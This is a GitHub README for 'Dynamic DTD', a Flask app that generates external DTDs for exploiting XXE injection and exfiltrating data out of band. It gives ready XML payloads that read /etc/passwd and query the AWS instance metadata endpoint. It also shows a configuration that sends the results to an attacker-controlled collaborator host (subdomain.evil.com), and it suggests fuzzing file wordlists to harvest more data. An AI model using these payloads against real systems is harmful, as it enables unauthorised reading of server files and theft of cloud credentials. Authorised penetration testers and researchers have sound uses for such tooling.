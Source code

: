 # Dynamic DTD
A python Flask app that generates dynamic DTDs for easy out-of-band data exfiltration.

Usually when using external DTDs to perform out-of-band data exfiltration with an XXE Injection vulnerability, you have to keep modifying the DTD, updating the external entity to point to new locations (files, internal web resources, etc.) every time you want to exfiltrate something new. This simple python Flask app allows you to create dynamic DTDs based on a single URL parameter, meaning that you can easily use it with your favorite fuzzer and file wordlist, sit back, and watch the data come in.

## Installation

Installation is simple. Just clone this repository, and install flask using pip:

```bash
pip3 install flask
```

## Configuration

In `app.py`, on line 5, change the `collab` variable to the URL of either a Burp collaborator payload, or even just a web server you can view access logs on. Include the scheme, port number if it is non-standard, but leave off the trailing slash ( / ). An example can be seen below:

```
collab = "https://subdomain.evil.com:8443"
```

## Usage

Change to the directory of `app.py` and run the following command, specifying the port you want the server to run on, and the IP of the interface you wish to use.

```bash
flask run -p <port> -h <interface-ip>
```

Once the server is running, you can use the following payload in your XML documents, updating the `<server-ip>`, `<port>`, and `ext` parameter to appropriate values:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/malicious.dtd?ext=file:///etc/passwd"> %xxe;]>
```

If the attack is successful, the contents of the /etc/passwd file (using the above example) should appear in the access logs of the `collab` server specified earlier. Note that for some parsers, only the first line of the file may get sent.

Once the `<server-ip>` and `<port>` are set in the payload, the value of the `ext` parameter can be fuzzed to try and find different files, or can be replaced by other URI schemes (e.g. http, https). For example, the following payload can be used to try and extract information from the AWS Instance Metadata API:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<server-ip>:<port>/malicious.dtd?ext=http://169.254.169.254/latest/dynamic/instance-identity/document"> %xxe;]>
```

